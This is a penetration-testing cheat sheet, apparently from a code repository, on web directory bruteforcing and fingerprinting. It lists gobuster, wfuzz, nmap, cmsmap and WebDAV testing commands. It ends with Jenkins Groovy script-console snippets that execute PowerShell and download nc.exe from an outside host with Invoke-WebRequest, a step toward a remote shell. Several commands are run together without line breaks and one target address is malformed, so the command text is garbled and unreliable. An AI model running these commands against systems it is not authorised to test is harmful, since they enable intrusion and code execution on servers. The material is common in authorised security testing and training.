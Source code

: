 # **Web Application Directory bruteforcing / fingerprinting** #

## **What is Directory Bruteforcing?** ##
Directory brute-forcing is a technique used in cybersecurity to systematically guess and test directories or folders within a web server or application. This method involves trying various directory names or paths in an attempt to discover hidden or unprotected resources. By using automated tools or scripts, attackers can exhaustively search for sensitive files, configuration files, or directories containing valuable information. Directory brute-forcing poses a significant security risk as it can lead to unauthorized access, data breaches, or exploitation of vulnerabilities within the target system. Organizations often employ measures like access controls, web application firewalls, and security monitoring to mitigate the risks associated with directory brute-forcing attacks.

## **What is Fingerprinting?** ##
Fingerprinting is the systematic identification of software, frameworks, libraries, and configurations used to build a website or web service. It's akin to recognizing the unique "fingerprint" left behind by specific technologies. This process typically involves analyzing HTTP headers, response codes, URL structures, JavaScript files, and other artifacts to deduce details about the underlying infrastructure and software stack. Fingerprinting aids in understanding potential vulnerabilities, compatibility issues, and the overall security posture of web applications.

## **Tools and Commands** ##

```
gobuster -u http://ip -w /usr/share/wordlists/dirb/small.txt -s 307,200,204,301,302,403 -x txt,sh,cgi,pl -t 50gobuster -u http://ip/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -s 307,200,204,301,302,403 -x txt,sh,cgi,pl -t 50gobuster -u x.x.x.x -w /usr/share/seclists/Discovery/Web_Content/common.txt -t 20gobuster -u x.x.x.x -w /usr/share/seclists/Discovery/Web_Content/quickhits.txt -t 20gobuster -u x.x.x.x -w /usr/share/seclists/Discovery/Web_Content/common.txt -t 20 -x .txt,.phpgobuster -s "200,204,301,302,307,403,500" -w /usr/share/seclists/Discovery/Web_Content/common.txt -u http://gobuster -s "200,204,301,302,307,403,500"  -u http://XXXX -wgobuster -u http://ip -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -t 40Gobuster comprehensive directory bustinggobuster -s 200,204,301,302,307,403 -u iop -w /usr/share/seclists/Discovery/Web_Content/big.txt -t 80 -a 'Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0'Gobuster quick directory bustinggobuster -u ip -w /usr/share/seclists/Discovery/Web_Content/common.txt -t 80 -a Linux
```

```
wfuzz -w /usr/share/seclists/Discovery/Web_Content/common.txt --hc 400,404,500 http://x.x.x.x/FUZZwfuzz -w /usr/share/seclists/Discovery/Web_Content/quickhits.txt --hc 400,404,500 http://x.x.x.x/FUZZ wfuzz -c -z range,1-65535 --hl=2 http://ip:60000/url.php?path=1 27.0.0.1:FUZZwfuzz -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hh 158607 http://bart.htb/FUZZ​
```

```
 nmap --script http-form-fuzzer --script-args 'http-form-fuzzer.targets={1={path=/},2={path=/register.html}}' -p 80 $ip
```

```
cmsmap.py https://x.x.x.x
```

```
WebdavTest incorrect permissions:​$ cadaver http://$ip$ davtest http://$ip​
```

```
Jenking groovy codeTesting to see if we have code execution…​def sout = new StringBuffer(), serr = new StringBuffer()def proc = 'powershell.exe $PSVERSIONTABLE'.execute()proc.consumeProcessOutput(sout, serr)proc.waitForOrKill(1000)println "out> $sout err> $serr"
```

```
NC upload in jenkin Server​def process = "powershell -command Invoke-WebRequest 'http://ip/nc.exe' -OutFile nc.exe".execute();println("${process.text}");
```

